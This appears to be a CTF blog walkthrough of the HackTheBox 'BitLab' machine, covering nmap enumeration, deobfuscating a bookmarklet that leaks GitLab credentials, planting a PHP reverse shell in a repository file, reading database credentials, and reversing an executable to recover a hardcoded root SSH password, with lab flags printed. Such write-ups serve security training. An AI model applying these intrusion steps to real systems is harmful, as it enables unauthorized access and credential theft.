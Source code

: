 ```yaml
---
date: 2020-01-11 23:48:05
layout: post
title: HackTheBox - BitLab
subtitle: "Created by: Mrx-Exploit"
description: >-
  Created by: Mrx-Exploit
image: >-
  /assets/img/hackthebox/bitlab/banner.png
optimized_image: >-
  /assets/img/hackthebox/bitlab/banner.png
category: blog
tags:
  - hackthebox
  - gitlab
  - web
  - ssh
  - reverse_engineering
  - privilege_escalation
author: Hazem Hesham
paginate: true
---
```



# Summary

It was easy box worth 20 points   
IP : `10.10.10.114`  
Easy user we got it after low enumeration we got it from web interface GitLab running on it and root part was so funny with reverse engineering

# Information Gathering

first lets add `10.10.10.114` to `/etc/hosts` file to bypass any dns records  

> Nmap


As usual we Have to see the open ports So this mission for nmap   

```Bash
root@kali:~# nmap -sVC bitlab.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 03:56 EST
Nmap scan report for bitlab.htb (10.10.10.114)
Host is up (0.89s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://bitlab.htb/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```
I got only `22 and 80` So lets see the web interface
But before we go there is a lot of info in `robots.txt` like `/autocomplete/users /search /api /admin /profile /dashboard /projects/new /groups/new /groups/*/edit /users /help`  
A lot of subs we can visit it so lets see what's inside /help maybe we can get something useful  
Oh there is `HTML` file called `bookmarks.html` So lets see what's inside  
![image](/assets/img/hackthebox/bitlab/help.png)

Hmmm All return to the main website but `GitLab` have javascript so wired

```javascript
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```
It's obfuscation so lets deobfuscation this code using [this site](https://lelinhtinh.github.io/de4js/)
And I got this function
```javascript

javascript: (function () {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```
# PWN USER

What the hack we got username and passwd damn it's so easy  
`clave:11des0081x`

So lets harry up and try to login
After login we got access on `bitlab.htb/api`  
After some Enumeration I got `bitlab.htb/snippets/1`  

```php

<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

So lets try to edit in `root/profile` there is `index.php` file lets add our reverse shell there  

Yup we got **easy to hack easy to build**   

Now lets do php called Whatnow.php and put the php code we got Above and run it `php Whatnow.php`  

Wow we got username and Base64(passwd) So lets decode it and get to try `su -u clave` or ssh with this creds   
There is do decode for it !! so lets use it as we see  

```bash
root@kali:~# ssh clave@bitlab.htb
The authenticity of host 'bitlab.htb (10.10.10.114)' can't be established.
ECDSA key fingerprint is SHA256:hNHxoptKsWqkzdME7Bfb+cGjskcAAGySJazK+gDDCHQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bitlab.htb,10.10.10.114' (ECDSA) to the list of known hosts.
clave@bitlab.htb's password:
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$ pwd
/home/clave
clave@bitlab:~$ cat user.txt
1e3fd81ec3aa2f1462370ee3c20b8154
```

# PWN ROOT

We have exe file on the clave directory

```Bash
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
clave@bitlab:~$
```
let's take this program in our Host   
```bash
root@kali:~# scp clave@bitlab.htb:/home/clave/RemoteConnection.exe /root/Desktop/
clave@bitlab.htb's password:
RemoteConnection.exe                                     100%   14KB   6.0KB/s   00:02    
```
And lets use IDA pro for this mission  
After using IDA pro I got something so wired  
![image](/assets/img/hackthebox/bitlab/putty.png)
It's calling putty.exe WHY !!?   
I think it's will ssh as root on the box !!?   
Let's try to get run it with breakpoint in `jnz       short  loc_401662`  
and we got it it's calling putty to connect with the box as root using ssh `ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^"`
So now we can connect as root let's try it  
```
root:Qf7]8YSV.wDNF*[7d?j&eD4^
```
```bash
root@kali:~# ssh root@bitlab.htb
root@bitlab.htb's password:
Last login: Fri Sep 13 14:11:14 2019
root@bitlab:~# pwd
/root
root@bitlab:~# cat root.txt
8d4cc131757957cb68d9a0cddccd587c
root@bitlab:~#
```
